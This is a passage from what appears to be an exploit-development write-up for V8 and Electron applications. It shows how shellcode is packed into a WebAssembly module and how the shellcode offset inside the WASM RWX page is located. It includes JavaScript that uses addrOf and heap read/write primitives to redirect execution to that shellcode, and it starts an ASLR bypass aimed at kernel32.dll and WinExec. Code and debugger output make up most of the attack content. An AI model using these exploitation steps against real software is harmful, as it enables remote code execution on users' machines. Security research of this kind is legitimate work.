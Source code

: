 Next we will write the output of shellcode.py as .wat file 
Test.wat

![image](https://github.com/user-attachments/assets/c1fb21b0-83be-426a-870f-d3d4c9579eaf)

Convert it to Uint8Array
```bash
wat2wasm "test.wat" -o /tmp/ex.wasm
xxd -i /tmp/ex.wasm | grep 0x | tr -d \\n
```

![image](https://github.com/user-attachments/assets/0f4bc0ab-cab5-48a8-8b4c-127ec8e4206c)

Output is the hex value of test.wat, this is used as the Uint8Array to generate WASM with our shellcode
![image](https://github.com/user-attachments/assets/36d1b9e4-53a8-4e7f-881a-a0e255529493)

## Find shellcode offset inside WASM rwx memory page

Once we have our shellcode as float inside the WebAssembly module we can find the offset in the debugger.
The RWX address is at offset 0x48 from the WASM module (this might differ from different v8 versions, the offset can be found debugging d8)
At addrof(wasm) + 0x48 we have the RWX address, shellcode offset is found by inspecting the RWX address looking for the first ```mov r10``` instruction.
Inspect the RWX address

![image](https://github.com/user-attachments/assets/379427aa-bfaa-48dd-99b5-da7838e34fda)

Inspect the jmp instruction address

![image](https://github.com/user-attachments/assets/2e60ad81-75f6-40b2-ad5f-a128d130bf25)

The first mov r10 instruction is at address 0x21ea4a1c1b58, the offset is ```address of mov r10``` – ```RWX address```
0x21ea4a1c1b58 - 0x21ea4a1c1000 = 0xb58
Shellcode offset  = 0xb58 + 2n

```javascript
var instance_addr_0 = addrOf(wasm_instance_0);
var rwx_0 = heap_read64(instance_addr_0 + 0x48n);
var shellcode_0 = rwx_0 + 0xb58n +2n;

console.log('instance_addr_0 ' + ToHex(instance_addr_0));
console.log('rwx_0 ' + ToHex(rwx_0));
console.log('shellcode_0 ' + ToHex(shellcode_0));
heap_write64(target_rwx, shellcode_0);
```

## Evade ASLR

The last step is to evade ASLR , get kernel32.dll address and execute our code through winexec.
Testing across multiple electron applications, setting a breakpoint as the first assembly instruction I found that there is a memory address at RSP+0x38 which is at a fixed offset from a reference to a kernel32.dll address.
